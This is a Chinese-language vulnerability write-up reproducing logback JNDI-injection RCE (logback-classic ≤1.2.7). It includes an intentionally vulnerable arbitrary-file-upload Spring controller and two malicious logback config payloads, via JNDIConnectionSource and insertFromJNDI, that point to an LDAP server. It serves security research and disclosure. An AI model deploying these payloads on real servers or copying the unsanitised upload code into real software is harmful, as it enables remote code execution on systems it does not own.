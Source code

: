 ##  影响版本

logback-classic <=1.2.7

##  测试环境

 SpringBoot 2.6.1 

 JDK 8u111(请注意 JNDI 可利用的版本)

## 复现项目地址

https://github.com/cn-panda/logbackRceDemo

项目是用 SpringBoot 写的一个简单的漏洞 Demo 环境，主要是`UploadController`中的`upload`函数：

```java
public String upload(@RequestParam("file") MultipartFile file) {  
    if (file.isEmpty()) {  
        return "Upload failed, please select a file！！";  
    }  
  
    String fileName = file.getOriginalFilename();  
    String filePath = Thread.currentThread().getContextClassLoader().getResource("").getPath();;  
    System.out.println(filePath);  
    File dest = new File(filePath,fileName);  
    try {  
        file.transferTo(dest);  
        LOGGER.info("Upload succeeded!!");  
        return "Upload succeeded!!";  
    } catch (IOException e) {  
        LOGGER.error(e.toString(), e);  
    }  
    return "Upload failed!!";  
}
```

该函数主要功能是用来上传文件。

项目中 logback 的配置文件如下：

![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/1.png?raw=true)

关键点在于`scan`属性，该属性是 logback 用于定时扫描配置文件的变化，若检测到配置文件发生改变，则实时更新加载配置文件

在这里，我故意的写了一个存在任意文件上传的漏洞环境，然后借助 loghack 配置文件中的`scan`属性，配合logback漏洞，实现 RCE

**注意：这里的 upload 是我故意编写的存在文件上传漏洞的代码，是为了提出一种可能的场景提出来的，并不是 logback 本身的问题，logback 只是需要这个漏洞才能够触发 RCE，如果在不借助其他漏洞的情况下，logback 本身是安全**

# 漏洞分析

## JNDIConnectionSource
在 logback 中同样类似于log4j1.x 中  JDBCAppender 的 Appender —— **DBAppender**，DBAppender 中有一个名为`ConnectionSource`的接口

该接口提供了一种可插拔式的方式为需要使用 `java.sql.Connection` 的 logback 类获取 JDBC 连接

目前有三种实现类，分别为： `DriverManagerConnectionSource` 、`DataSourceConnectionSource`与 `JNDIConnectionSource`。

这三种实现类每一种都可以用来达到 RCE

但和另外两种实现类不同的是，`JNDIConnectionSource` 实现 RCE 的方式更方便，因为和它可以不借助其他依赖组件的 gadget，仅依靠应用提供的本身机制（JNDI）即可实现 RCE， 但 `DriverManagerConnectionSource` 、`DataSourceConnectionSource`必须依赖 JDBC 反序列漏洞才能够实现 RCE，限制比较大，故这里不做演示。

**JNDIConnectionSource** 是 logback 自带的方法，从名字就可以看出来，它通过 JNDI 获取 javax.sql.DataSource，然后再获取 java.sql.Connection 实例

实际上可以通过观察`JNDIConnectionSource.java`中`getConnection`方法的代码可以发现：

![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/2.png?raw=true)

如果dataSource 为空，那么就令`dataSource = lookupDataSource();`

然后在**lookupDataSource()** 中触发 `lookup`:

![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/3.png?raw=true)

#### 漏洞复现

首先下载复现源码，然后运行`RceDemoApplication`项目的main 函数：

![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/4.png?raw=true)

然后打开浏览器，在地址栏中输入：`http://localhost:8080` 即可访问项目首页

![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/5.png?raw=true)

然后在本地创建一个`logback-spring.xml`的配置文件，文件内容如下：

```
<configuration scan="true" scanPeriod="10 seconds" debug="true">  
　　　<appender name="STDOUT" class="ch.qos.logback.core.ConsoleAppender">  
    　　　　　 <encoder>  
    　　　　　　　　　<pattern>%-4relative [%thread] %-5level %logger{35} - %msg %n</pattern>  
    　　　　　 </encoder>  
    　　　</appender>  
    <appender name="DB" class="ch.qos.logback.classic.db.DBAppender">  
        <connectionSource class="ch.qos.logback.core.db.JNDIConnectionSource">  
            <jndiLocation>ldap://127.0.0.1:1389/erqtcd</jndiLocation>  
        </connectionSource>  
    </appender>  
  
    　　　<root level="DEBUG">  
    　　　　　　<appender-ref ref="STDOUT" />  
    　　　</root>  
</configuration>
```

然后再访问`http://localhost:8080/upload.html`，选择该文件后点击上传按钮，抓包可以看到文件上传成功：

![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/6.png?raw=true)

等待十秒钟后，即可成功执行 RCE

![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/7.png?raw=true)

## insertFromJNDI

除了`JNDIConnectionSource`外，实际上还有一种配置可以实现 JNDI 注入—— **insertFromJNDI**

`<insertFromJNDI>` 是 logback 的配置标签，用于设置属性的范围，其支持通过 JNDI 的方式来获取属性值，同样的，如果修改`<insertFromJNDI>` 标签的内容，同样可以实现 JNDI 注入

当使用`<insertFromJNDI>` 标签的时候，意味着会调用`InsertFromJNDIAction.java`文件中的`begin`方法，在该方法中会使用`JNDIUtil.lookup` 方法，从而触发漏洞：

![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/8.png?raw=true)

### 漏洞复现

和 #JNDIConnectionSource 中复现步骤大致相同，只是上传文件中利用的payload 需要改变，如下：

```
<configuration scan="true" scanPeriod="10 seconds" debug="true">
　　　<appender name="STDOUT" class="ch.qos.logback.core.ConsoleAppender">
    　　　　　 <encoder>
    　　　　　　　　　<pattern>%-4relative [%thread] %-5level %logger{35} - %msg %n</pattern>
    　　　　　 </encoder>
    　　　</appender>
    <insertFromJNDI env-entry-name="ldap://127.0.0.1:1389/erqtcd" as="appName" />  

　　　<root level="DEBUG">
    　　　　　　<appender-ref ref="STDOUT" />
    　　　</root>
</configuration>
```

上传该配置文件：

![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/9.png?raw=true)

同样的，等待 10 秒后，即可触发 RCE：

![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/10.png?raw=true)

实际上，除了这两个外，`JMXConfiguratorAction`中的`begin`同样可以进行恶意利用

![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/11.png?raw=true)

# 总结

总的来说，这个漏洞的触发方式还是比较困难的，除非能够满足以下条件：

1、能够修改或者覆盖 logback 的配置文件
2、能够使得修改的配置文件生效
2、能够使得修改的配置文件生效
